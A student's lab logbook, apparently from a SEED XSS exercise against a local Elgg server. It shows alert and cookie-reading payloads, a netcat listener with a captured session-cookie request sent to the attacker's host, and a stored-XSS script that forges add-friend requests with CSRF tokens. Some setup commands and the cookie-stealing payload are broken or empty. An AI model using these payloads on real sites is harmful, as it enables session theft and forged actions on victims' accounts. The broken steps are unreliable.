


# Logbook #7

> Environment Setup:
>
> - DNS Setup (execute only once):
>
> ```bash
> $ cat 10.9.0.5 www.seed-server.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32a.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32b.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32c.com >> /etc/hosts
> $ cat 10.9.0.5 www.example60.com >> /etc/hosts
> $ cat 10.9.0.5 www.example70.com >> /etc/hosts
> ```
>
> - Clean MySQL database:
>
> ```bash
> $ sudo rm -rf mysql_data # Inside Labsetup folder
> ```
>
> - Start Docker:
>
> ```bash
> $ dcbuild # Inside Labsetup folder
> $ dcup
> ```

## Task 1

Putting the following line in a profile brief description will execute that javascript code every time the page is loaded, i.e., a popup will appear like in the image.

```html
<script>alert(’XSS’);</script>
```



## Task 2

The following script generates a popup showing the client cookies.

```html
<script>alert(document.cookie);</script>
```

Again, writing it in the brief description of the user profile executes that javascript code.



## Task 3

Instead of showing a popup to the victim with its own cookies, we can send them to the attacker's machine.

To achieve that, we execute

```bash
nc -lknv 5555 
```

which will start to listen to the TCP requests in the port 5555.

Then, we write the following script in the attacker's profile.

```html
<script>document.write(’’);
</script>
```

This, will send a HTTP request for an image to the attacker's server. 

Bellow, we can see the output of netcat in the attacker's computer:

```
Listening on 0.0.0.0 5555
Connection received on 10.0.2.15 44658
GET /?c=Elgg%3Djj5s8t7scks540tr5k1itt6301%3B%20elggperm%3Dzj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2 HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/;q=0.8,/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/
Priority: u=4, i
```

The cookies are In the fourth line:

> Elgg%3Djj5s8t7scks540tr5k1itt6301%3B%20elggperm%3Dzj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2

## Task 4

When a user adds Samy as friends, a GET HTTP request is sent to the server:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1731587585&__elgg_token=hVPCC0x8-c-AJ3wq0bC7vA&__elgg_ts=1731587585&__elgg_token=hVPCC0x8-c-AJ3wq0bC7vA
```

```
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: elggperm=zj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2; Elgg=jj5s8t7scks540tr5k1itt6301
```

Sending such HTTP request can be replicated with the following script:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;

        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // ➀
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // ➁

        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

Now, putting this script in Samy's "About Me" field in Text Mode, will inject it right in the HTML of the page. Then, it will be execute by every user that enters his page.

> Explain the purpose of Lines ➀ and ➁, why are they needed?

The purpose lines ➀ and ➁ is to get the security tokens needed to successfully send the HTTP request. Without them, the server would not be able to infer the origin of such request, ignoring it. 

> If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

No, because the script would only be shown and not executed. Thus, not sending the GET request to add Samy as friend.

## Question 2

> Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê?

This is a Stored XSS attack, since the malicious script is stored on the Elgg site.